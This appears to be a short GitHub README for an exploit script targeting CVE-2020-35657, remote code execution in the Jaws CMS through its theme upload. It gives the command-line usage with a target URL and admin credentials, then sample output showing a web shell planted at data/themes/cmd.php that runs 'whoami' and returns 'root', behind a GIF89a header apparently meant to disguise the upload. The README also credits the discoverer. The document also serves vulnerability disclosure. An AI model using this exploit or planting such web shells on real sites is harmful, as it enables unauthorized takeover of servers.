 # jaws-rce-via-theme CVE-2020-35657


python jaws-rce2.py

[+]Usage python jaws-rce2.py http://victim.com/ admin admin

python jaws-rce2.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin


Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/themes/cmd.php?c=whoami

GIF89a

root

# Discoverer

Bassam Assiri https://twitter.com/BassamAssiri  https://www.linkedin.com/in/bassam-assiri-9418401ab/

# Special Thanks to:
Abdallah Fouad https://twitter.com/AbdallafouadX https://www.linkedin.com/in/abdallah-fouad/
